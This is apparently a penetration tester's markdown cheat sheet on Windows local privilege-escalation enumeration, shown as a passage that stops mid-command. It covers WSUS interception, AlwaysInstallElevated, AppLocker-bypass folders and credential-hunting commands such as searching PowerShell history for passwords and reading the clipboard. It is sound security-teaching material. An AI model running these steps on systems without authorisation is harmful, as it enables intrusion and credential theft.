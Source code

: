 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Windows Local Enumeration
### References
<details><summary>References (Click to expand)</summary><p>

* Hacktricks Blog: Access Tokens -<br />[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/access-tokens](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/access-tokens)
</p></details>

### Overview
* Initial Windows Theory
	* Access Tokens
	* ACLs - DACLs/SACLs/ACEs
	* Integrity Levels

### Tools
* WinPEAS
* <details><summary>PS (Click to expand)</summary><p>
	* Check for misconfigurations and sensitive files (). Detected.
	* Check for some possible misconfigurations and gather info ().
	* Check for misconfigurations
	* It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information. Use -Thorough in local.
	* Extracts crendentials from Credential Manager. Detected.
	* Spray gathered passwords across domain
	* Inveigh is a PowerShell ADIDNS/LLMNR/mDNS/NBNS spoofer and man-in-the-middle tool.
	* Basic privesc Windows enumeration
	* Search for known privesc vulnerabilities (DEPRECATED for Watson)
	* Local checks (Need Admin rights)
* <details><summary>Exe (Click to expand)</summary><p>
	* Search for known privesc vulnerabilities (needs to be compiled using VisualStudio) ()
	* Enumerates the host searching for misconfigurations (more a gather info tool than privesc) (needs to be compiled) ()
	* Extracts credentials from lots of softwares (precompiled exe in github)
	* Check for misconfiguration (executable precompiled in github). Not recommended. It does not work well in Win10.
	* Check for possible misconfigurations (exe from python). Not recommended. It does not work well in Win10.
* <details><summary>Bat (Click to expand)</summary><p>
	* Tool created based in this post (it does not need accesschk to work properly but it can use it).
* <details><summary>Local (Click to expand)</summary><p>
	* Reads the output of systeminfo and recommends working exploits (local python)
	* Reads the output of systeminfo andrecommends working exploits (local python)
* <details><summary>Meterpreter (Click to expand)</summary><p>
	* `multi/recon/local_exploit_suggestor`
	* You have to compile the project using the correct version of .NET (). To see the installed version of .NET on the victim host you can do:
		* `C:\Windows\microsoft.net\framework\v4.0.30319\MSBuild.exe` -version #Compile the code with the version given in "Build Engine version" line

### Process
1. <details><summary>System Information (Click to expand)</summary><p>
	* <details><summary>Version info enumeration (Click to expand)</summary><p>
		* Check if the Windows version has any known vulnerability (check also the patches applied).
			* Command Shell

					systeminfo
				* <details><summary>Sample Output (Click to expand)</summary><p>

						Host Name:                 DESKTOP-RLTBTA1
						OS Name:                   Microsoft Windows 10 Enterprise
						OS Version:                10.0.19043 N/A Build 19043
						OS Manufacturer:           Microsoft Corporation
						OS Configuration:          Standalone Workstation
						OS Build Type:             Multiprocessor Free
						Registered Owner:          Windows User
						Registered Organization:
						Product ID:                00329-10286-33841-AA639
						Original Install Date:     5/26/2021, 2:43:13 PM
						System Boot Time:          12/22/2021, 1:21:59 PM
						System Manufacturer:       VMware, Inc.
						System Model:              VMware7,1
						System Type:               x64-based PC
						Processor(s):              1 Processor(s) Installed.
						                           [01]: Intel64 Family 6 Model 158 Stepping 10 GenuineIntel ~2592 Mhz
						BIOS Version:              VMware, Inc. VMW71.00V.18452719.B64.2108091906, 8/9/2021
						Windows Directory:         C:\Windows
						System Directory:          C:\Windows\system32
						Boot Device:               \Device\HarddiskVolume1
						System Locale:             en-us;English (United States)
						Input Locale:              en-us;English (United States)
						Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
						Total Physical Memory:     8,191 MB
						Available Physical Memory: 5,551 MB
						Virtual Memory: Max Size:  9,471 MB
						Virtual Memory: Available: 7,148 MB
						Virtual Memory: In Use:    2,323 MB
						Page File Location(s):     C:\pagefile.sys
						Domain:                    WORKGROUP
						Logon Server:              \\DESKTOP-RLRBTC8
						Hotfix(s):                 5 Hotfix(s) Installed.
						                           [01]: KB5006365
						                           [02]: KB5000736
						                           [03]: KB5005033
						                           [04]: KB5007273
						                           [05]: KB5005260
						Network Card(s):           2 NIC(s) Installed.
						                           [01]: Intel(R) 82574L Gigabit Network Connection
						                                 Connection Name: Ethernet0
						                                 DHCP Enabled:    Yes
						                                 DHCP Server:     172.16.68.254
						                                 IP address(es)
						                                 [01]: 172.16.68.151
						                                 [02]: fe80::e46f:440a:e5f:261e
						                           [02]: Bluetooth Device (Personal Area Network)
						                                 Connection Name: Bluetooth Network Connection
						                                 Status:          Media disconnected
						Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
		* Filter Systeminfo Results
			* Command Shell

					systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
				* <details><summary>Sample Output (Click to expand)</summary><p>

						OS Name:                   Microsoft Windows 10 Enterprise
						OS Version:                10.0.19043 N/A Build 19043
		* Get system architecture
			* Command Shell

					wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
				* <details><summary>Sample Output (Click to expand)</summary><p>

						OSArchitecture
						64-bit
		* Current OS version
			* PowerShell

					[System.Environment]::OSVersion.Version
				* <details><summary>Sample Output (Click to expand)</summary><p>

						Major  Minor  Build  Revision
						-----  -----  -----  --------
						10     0      19043  0
	* <details><summary>Patches (Click to expand)</summary><p>
		* Command Shell

				wmic qfe get Caption,Description,HotFixID,InstalledOn
			* <details><summary>Sample Output (Click to expand)</summary><p>

					Caption                                     Description      HotFixID   InstalledOn
					http://support.microsoft.com/?kbid=5007289  Update           KB5007289  12/22/2021
					https://support.microsoft.com/help/5000736  Update           KB5000736  4/9/2021
					https://support.microsoft.com/help/5005033  Security Update  KB5005033  8/13/2021
					                                            Update           KB5007273  12/14/2021
					                                            Security Update  KB5005260  8/13/2021
		* PowerShell

				Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}
			* <details><summary>Sample Output (Click to expand)</summary><p>

					KB5007289
					KB5000736
					KB5005033
					KB5007273
					KB5005260
			* List only "Security Update" patches
				* Command Shell

						Get-Hotfix -description "Security update"
	* <details><summary>Environment (Click to expand)</summary><p>
		* Check environment variables
			* Command Shell

				set
			* <details><summary>Sample Output (Click to expand)</summary><p>

					ALLUSERSPROFILE=C:\ProgramData
					APPDATA=C:\Users\USER1\AppData\Roaming
					CommonProgramFiles=C:\Program Files\Common Files
					CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
					CommonProgramW6432=C:\Program Files\Common Files
					COMPUTERNAME=DESKTOP-RLRBTC8
					ComSpec=C:\Windows\system32\cmd.exe
					DriverData=C:\Windows\System32\Drivers\DriverData
					FPS_BROWSER_APP_PROFILE_STRING=Internet Explorer
					FPS_BROWSER_USER_PROFILE_STRING=Default
					HOMEDRIVE=C:
					HOMEPATH=\Users\USER1
					LOCALAPPDATA=C:\Users\USER1\AppData\Local
					LOGONSERVER=\\DESKTOP-RLRBTC8
					NUMBER_OF_PROCESSORS=2
					OneDrive=C:\Users\Thomas Preston\OneDrive
					OS=Windows_NT
					Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\Thomas Preston\AppData\Local\Microsoft\WindowsApps;
					PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
					PROCESSOR_ARCHITECTURE=AMD64
					PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 158 Stepping 10, GenuineIntel
					PROCESSOR_LEVEL=6
					PROCESSOR_REVISION=9e0a
					ProgramData=C:\ProgramData
					ProgramFiles=C:\Program Files
					ProgramFiles(x86)=C:\Program Files (x86)
					ProgramW6432=C:\Program Files
					PROMPT=$P$G
					PSModulePath=C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
					PUBLIC=C:\Users\Public
					SESSIONNAME=Console
					SystemDrive=C:
					SystemRoot=C:\Windows
					TEMP=C:\Users\USER1~1\AppData\Local\Temp
					TMP=C:\Users\USER1~1\AppData\Local\Temp
					USERDOMAIN=DESKTOP-RLTBTA1
					USERDOMAIN_ROAMINGPROFILE=DESKTOP-RLTBTA1
					USERNAME=USER1
					USERPROFILE=C:\Users\USER1
					windir=C:\Windows
		* PowerShell

				dir env:
			* <details><summary>Environment (Click to expand)</summary><p>

					Name                           Value
					----                           -----
					ALLUSERSPROFILE                C:\ProgramData
					APPDATA                        C:\Users\Thomas Preston\AppData\Roaming
					CommonProgramFiles             C:\Program Files\Common Files
					CommonProgramFiles(x86)        C:\Program Files (x86)\Common Files
					CommonProgramW6432             C:\Program Files\Common Files
					COMPUTERNAME                   DESKTOP-RLRBTC8
					ComSpec                        C:\Windows\system32\cmd.exe
					DriverData                     C:\Windows\System32\Drivers\DriverData
					FPS_BROWSER_APP_PROFILE_STRING Internet Explorer
					FPS_BROWSER_USER_PROFILE_ST... Default
					HOMEDRIVE                      C:
					HOMEPATH                       \Users\Thomas Preston
					LOCALAPPDATA                   C:\Users\Thomas Preston\AppData\Local
					LOGONSERVER                    \\DESKTOP-RLRBTC8
					NUMBER_OF_PROCESSORS           2
					OneDrive                       C:\Users\Thomas Preston\OneDrive
					OS                             Windows_NT
					Path                           C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPo...
					PATHEXT                        .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
					PROCESSOR_ARCHITECTURE         AMD64
					PROCESSOR_IDENTIFIER           Intel64 Family 6 Model 158 Stepping 10, GenuineIntel
					PROCESSOR_LEVEL                6
					PROCESSOR_REVISION             9e0a
					ProgramData                    C:\ProgramData
					ProgramFiles                   C:\Program Files
					ProgramFiles(x86)              C:\Program Files (x86)
					ProgramW6432                   C:\Program Files
					PSModulePath                   C:\Users\Thomas Preston\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsP...
					PUBLIC                         C:\Users\Public
					SESSIONNAME                    Console
					SystemDrive                    C:
					SystemRoot                     C:\Windows
					TEMP                           C:\Users\THOMAS~1\AppData\Local\Temp
					TMP                            C:\Users\THOMAS~1\AppData\Local\Temp
					USERDOMAIN                     DESKTOP-RLRBTC8
					USERDOMAIN_ROAMINGPROFILE      DESKTOP-RLRBTC8
					USERNAME                       Thomas Preston
					USERPROFILE                    C:\Users\Thomas Preston
					windir                         C:\Windows


				Get-ChildItem Env: | ft Key,Value
				PowerShell History
		* Find where the where is saved

				ConsoleHost_history
		* Other Commands

				type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
				type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
				type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
				cat (Get-PSReadlineOption).HistorySavePath
				cat (Get-PSReadlineOption).HistorySavePath | sls passw
	* <details><summary>PowerShell Transcript files (Click to expand)</summary><p>
		* Enable
			* [https://sid-500.com/2017/11/07/powershell-enabling-transcription-logging-by-using-group-policy/](https://sid-500.com/2017/11/07/powershell-enabling-transcription-logging-by-using-group-policy/)
		* Check if registry enabled

				reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription
				reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription
				reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\Transcription
				reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\Transcription
				dir C:\Transcripts
		* Start a Transcription session

				Start-Transcript -Path "C:\transcripts\transcript0.txt" -NoClobber
				Stop-Transcript
	* <details><summary>PowerShell Module Logging (Click to expand)</summary><p>
		* PowerShell Module Logging records the Powershell pipeline execution details
			* Command invocations
			* Some portion of the scripts
			* Not all execution/output details are captured
		* <details><summary>Overview (Click to expand)</summary><p>
			* Similar to PowerShell Transcript Files, but enable "Module Logging" instead of "Powershell Transcription"
		* Enumeration

				reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
				reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
				reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
				reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
		* View the last X events from PowerShell logs

				Get-WinEvent -LogName "windows Powershell" | select -First 10 | Out-GridView
	* <details><summary>PowerShell  Script Block Logging (Click to expand)</summary><p>
		* <details><summary>Overview (Click to expand)</summary><p>
			* PowerShell Script Block Logging records block of code as they are executed.
			* The method therefore captures the complete activity and full content of the script.
			* The method maintains the complete audit trail of each activity which can be used later in forensics and to study the malicious behavior.
			* The method records all the activity at time of execution thus provides the complete details.
		* Enumeration

				reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
				reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
				reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
				reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
			* The Script Block logging events can be found in Windows Event viewer under following path: `Application and Sevices Logs > Microsoft > Windows > Powershell > Operational`
			* To view the last X events you can use:

					Get-WinEvent -LogName "Microsoft-Windows-Powershell/Operational" | select -first 10 | Out-Gridview
	* <details><summary>Internet Settings (Click to expand)</summary><p>
		* Command Shell
			* Query Current User

					reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings"
				* <details><summary>Sample Output (Click to expand)</summary><p>

						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings
						    CertificateRevocation    REG_DWORD    0x1
						    DisableCachingOfSSLPages    REG_DWORD    0x0
						    IE5_UA_Backup_Flag    REG_SZ    5.0
						    PrivacyAdvanced    REG_DWORD    0x1
						    SecureProtocols    REG_DWORD    0xa80
						    User Agent    REG_SZ    Mozilla/4.0 (compatible; MSIE 8.0; Win32)
						    ZonesSecurityUpgrade    REG_BINARY    2BFC14B35BF7D701
						    WarnonZoneCrossing    REG_DWORD    0x0
						    EnableNegotiate    REG_DWORD    0x1
						    ProxyEnable    REG_DWORD    0x0
						    MigrateProxy    REG_DWORD    0x1
						    LockDatabase    REG_QWORD    0x1d7a580448f2847

						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\5.0
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Cache
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Http Filters
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Lockdown_Zones
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\P3P
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Passport
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\TemplatePolicies
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Wpad
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap
						HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones
			* Query Local Machine

					reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Internet Settings"
				* <details><summary>Sample Output (Click to expand)</summary><p>

						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings
						    ActiveXCache    REG_SZ    C:\Windows\Downloaded Program Files
						    CodeBaseSearchPath    REG_SZ    CODEBASE
						    EnablePunycode    REG_DWORD    0x1
						    MinorVersion    REG_SZ    0
						    WarnOnIntranet    REG_DWORD    0x1

						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\5.0
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Accepted Documents
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ActiveX Cache
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\AllowedBehaviors
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\AllowedDragImageExts
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\AllowedDragProtocols
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ApprovedActiveXInstallSites
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Cache
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Configuration
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Http Filters
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Last Update
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Lockdown_Zones
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\LUI
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\NoFileLifetimeExtension
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\P3P
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Passport
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\PluggableProtocols
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\PolicyExtensions
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Secure Mime Handlers
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\SO
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\SOIEAK
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\TemplatePolicies
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Url History
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\User Agent
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\WinHttp
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap
						HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones
	* <details><summary>Drives (Click to expand)</summary><p>
		* Command Shell
			* 1

					wmic logicaldisk get caption || fsutil fsinfo drives
				* <details><summary>Sample Output (Click to expand)</summary><p>

						Caption
						C:
						D:
						Z:
			* 2

					wmic logicaldisk get caption,description,providername
				* <details><summary>Sample Output (Click to expand)</summary><p>

						Caption  Description         ProviderName
						C:       Local Fixed Disk
						D:       CD-ROM Disc
						Z:       Network Connection
		* PowerShell
			* 1

					Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root
				* <details><summary>Sample Output (Click to expand)</summary><p>

						Name Root
						---- ----
						C    C:\
						D    D:\
						Z    Z:\
1. <details><summary>WSUS (Click to expand)</summary><p>
	* <details><summary>References (Click to expand)</summary><p>
		* WSUS CVE-2020-1013 report -<br />[https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)
	* <details><summary>Overview (Click to expand)</summary><p>
		* Vulnerable is system updates requested over http (no SSL)
		* The WSUS service runs as an elevated account. The destination of the service's commands can be specified to an attacker-controlled interceptor through Internet Explorer's configuration.
		* The WSUS service uses the current user's settings and certificate store. Generating a self-signed certificate for the WSUS hostname and storing the certificate in the current user's certificate store allows interception of both HTTP and HTTPS WSUS traffic.
			* WSUS uses no HSTS-like mechanisms to implement a trust-on-first-use type validation on the certificate. If the certificate presented is trusted by the user and has the correct hostname, it will be accepted by the service.
	* Vulnerability Check
		* Check if the network uses a non-SSL WSUS update

				reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
			* <details><summary>Sample Output (Click to expand)</summary><p>

					HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate	WUServer	REG_SZ	http://xxxx-updxx.corp.internal.com:8535
			* Vulnerable Status
				* `HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer` = 1
	* Follow-Up Attack(s)
		* wsuxploit -<br />[https://github.com/pimps/wsuxploit](https://github.com/pimps/wsuxploit)
		* pywsus -<br />[https://github.com/GoSecure/pywsus](https://github.com/GoSecure/pywsus)
		* wsuspicious -<br />[https://github.com/GoSecure/wsuspicious](https://github.com/GoSecure/wsuspicious)
1. <details><summary>AlwaysInstallElevated (Click to expand)</summary><p>
	* Command Shell
		* If these 2 registers are enabled (value is `0x1`), then users of any privilege can install (execute) `*.msi` files as `NT AUTHORITY\SYSTEM`.

				reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
				reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
1. <details><summary>Antivirus and Detectors (Click to expand)</summary><p>
	* <details><summary>Audit Settings (Click to expand)</summary><p>
		* Display what is being logged (Windows audit logging)

				reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit
	* <details><summary>WEF (Click to expand)</summary><p>
		* Display where logs are sent (Windows Event Forwarding)

				reg query HKLM\Software\Policies\Microsoft\Windows\EventLog\EventForwarding\SubscriptionManager
	* <details><summary>LAPS (Click to expand)</summary><p>
		* <details><summary>Overview (Click to expand)</summary><p>
			* LAPS allows you to manage the local Administrator password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES.
			* When using LAPS, 2 new attributes appear in the computer objects of the domain: `ms-msc-AdmPwd` and `ms-mcs-AdmPwdExpirationTime`. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.
		* Enumeration

				reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
	* <details><summary>WDigest (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: wdigest -<br />[https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#wdigest](https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#wdigest)
		* <details><summary>Overview (Click to expand)</summary><p>
			* If active, plain-text passwords are stored in LSASS (Local Security Authority Subsystem Service).

					reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
	* <details><summary>LSA Protection (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: lsa protection -<br />[https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#lsa-protection](https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#lsa-protection)
		* Microsoft in Windows 8.1 and later has provided additional protection for the LSA to prevent untrusted processes from being able to read its memory or to inject code.

				reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL
	* <details><summary>Credentials Guard (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: Credential Guard -<br />[https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#credential-guard(https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#credential-guard)]
		* <details><summary>Overview (Click to expand)</summary><p>
			* Credential Guard is a new feature in Windows 10 (Enterprise and Education edition) that helps to protect your credentials on a machine from threats such as pass the hash.

				reg query HKLM\System\CurrentControlSet\Control\LSA /v LsaCfgFlags
	* <details><summary>Cached Credentials (Click to expand)</summary><p>
		* <details><summary>Overview (Click to expand)</summary><p>
			* Domain credentials are used by operating system components and are authenticated by the Local Security Authority (LSA). Typically, domain credentials are established for a user when a registered security package authenticates the user's logon data.
		* Enumeration

				reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
	* <details><summary>AV (Click to expand)</summary><p>
		* Check for anti virus software

				WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List | more
				Get-MpComputerStatus 
	* <details><summary>AppLocker Policy (Click to expand)</summary><p>
		* Check which files/extensions are blacklisted/whitelisted

				Get-ApplockerPolicy -Effective -xml
				Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
				$a = Get-ApplockerPolicy -effective
				$a.rulecollections
		* Useful Writable folders to bypass AppLocker Policy
			* `C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys`
			* `C:\Windows\System32\spool\drivers\color`
			* `C:\Windows\Tasks`
			* `C:\windows\tracing`
	* <details><summary>UAC (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: UAC -<br />[https://book.hacktricks.xyz/windows/authentication-credentials-uac-and-efs#uac](https://book.hacktricks.xyz/windows/authentication-credentials-uac-and-efs#uac)
		* <details><summary>Overview (Click to expand)</summary><p>
			* UAC is used to allow an administrator user to not give administrator privileges to each process executed. This is achieved using default the low privileged token of the user.

					reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ 	
1. <details><summary>Users & Groups (Click to expand)</summary><p>
	* <details><summary>Enumerate Users & Groups (Click to expand)</summary><p>
		* You should check if any of the groups where you belong have interesting permissions
			* Command Script
				* Identify current user
					
					net users %username%
				* Identify all local users

					net users
				* Identify local groups

					net localgroup
				* Identify members of the Administrators group

					net localgroup Administrators
				* List current user privileges

					whoami /all
			* PowerShell

					Get-WmiObject -Class Win32_UserAccount
					Get-LocalUser | ft Name,Enabled,LastLogon
					Get-ChildItem C:\Users -Force | select Name
					Get-LocalGroupMember Administrators | ft Name, PrincipalSource
	* <details><summary>Privileged groups (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: Privileged Accounts and Token Privileges -<br />[https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges)
		* <details><summary>Overview (Click to expand)</summary><p>
			* If you belongs to some privileged group you may be able to escalate privileges. Learn about privileged groups and how to abuse them to escalate privileges here:
	* <details><summary>Token manipulation (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* .
	* <details><summary>Logged users / Sessions (Click to expand)</summary><p>
		* Enumeration

				qwinsta
				klist sessions
	* <details><summary>Home folders (Click to expand)</summary><p>
		* Enumeration

				dir C:\Users
				Get-ChildItem C:\Users
	* <details><summary>Password Policy (Click to expand)</summary><p>
		* Enumeration

				net accounts
	* <details><summary>Get the content of the clipboard (Click to expand)</summary><p>
		* Enumeration

				powershell -command "Get-Clipboard"
* <details><summary>Running Processes (Click to expand)</summary><p>
	* File and Folder Permissions
		* <details><summary>References (Click to expand)</summary><p>
			* HackTricks: DLL Hijacking -<br />[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking(https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)]
			* HackTricks: Electron CEF Chromium Debugger Abuse -<br />[https://book.hacktricks.xyz/linux-unix/privilege-escalation/electron-cef-chromium-debugger-abuse](https://book.hacktricks.xyz/linux-unix/privilege-escalation/electron-cef-chromium-debugger-abuse)
			* HackTricks: DLL Hijacking -<br />[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)
		* <details><summary>Overview (Click to expand)</summary><p>
			* List processes to identify is passwords were used in command-line process creation
		* Process
			* Check if you can overwrite some binary running or if you have write permissions of the binary folder to exploit possible 
				* List processes running and services
					
					Tasklist /SVC
				* Filter "system" processes

					tasklist /v /fi "username eq system"
			* With allowed Usernames

					Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
			* Without usernames

					Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id
			* Always check for possible 
				* Checking permissions of the processes binaries

						for /f "tokens=2 delims='='" %%x in ('wmic process list full^|find /i "executablepath"^|find /i /v "system32"^|find ":"') do (
							for /f eol^=^"^ delims^=^" %%z in ('echo %%x') do (
								icacls "%%z" 
